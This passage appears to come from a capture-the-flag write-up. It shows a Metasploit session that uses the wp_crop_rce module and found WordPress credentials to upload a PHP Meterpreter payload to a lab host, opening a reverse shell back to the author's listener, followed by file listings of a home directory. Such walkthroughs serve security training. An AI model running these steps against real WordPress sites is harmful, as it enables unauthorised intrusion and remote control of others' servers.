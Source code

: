 ````commandline
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [REDACTED]       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set RHOST 10.10.207.227
RHOST => 10.10.207.227
msf6 exploit(multi/http/wp_crop_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.8.208.30:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.187.73
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.187.73:46982) at 2021-08-29 20:46:42 +0200
````

Houston! We are in! Tried to grab the `user.txt` flag, but they played the monkey with me. Definitively, no luck today.

````commandline
meterpreter > ls /home/
Listing: /home/
===============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-26 22:08:48 +0200  bjoel

meterpreter > cd /home/bjoel
meterpreter > ls
Listing: /home/bjoel
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
20666/rw-rw-rw-   0      cha   2021-08-29 20:35:47 +0200  .bash_history
100644/rw-r--r--  220    fil   2018-04-04 20:30:26 +0200  .bash_logout
````